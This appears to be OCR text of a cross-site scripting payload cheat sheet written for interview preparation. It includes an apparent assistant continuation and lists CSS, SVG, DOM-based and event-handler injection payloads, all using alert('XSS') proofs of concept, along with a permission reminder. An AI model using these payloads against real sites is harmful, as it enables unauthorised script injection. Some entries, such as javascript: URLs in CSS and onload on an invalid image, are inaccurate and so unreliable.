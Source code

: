 
CSS Injection Payloads

1. background-image: url("javascript:alert('XSS')")


2. content: url("javascript:alert('XSS')")



Special Cases

1. PDF:

Embedded JavaScript in PDF files.



2. SVG:

<svg><script>alert('XSS')</script></svg>



General Notes

Test each payload contextually; not all payloads will work in every environment.

Ensure you have permission to test any system before attempting any of these payloads.

Understand the context in which each payload is executed (HTML, attribute, JavaScript, etc.).


Good luck with your interview preparation!


Here’s a continuation with more advanced XSS techniques and payloads:

Advanced XSS Techniques

1. DOM-Based XSS

Exploiting URL Hash:

window.location.hash = "#<script>alert('XSS')</script>";

Using document.write:

<script>document.write('<script>alert("XSS")<\/script>');</script>


2. Event Handler Injection

Using onload in Images:

<img src="invalid.jpg" onload="alert('XSS')">

Mouse Event Manipulation:

<div onmouseover="alert('XSS')" style="height:100px; width:100px; background-color:red;"></div>


3. Contextual XSS

Inline Event Handlers:

<button onclick="alert('XSS')">Click Me</button>
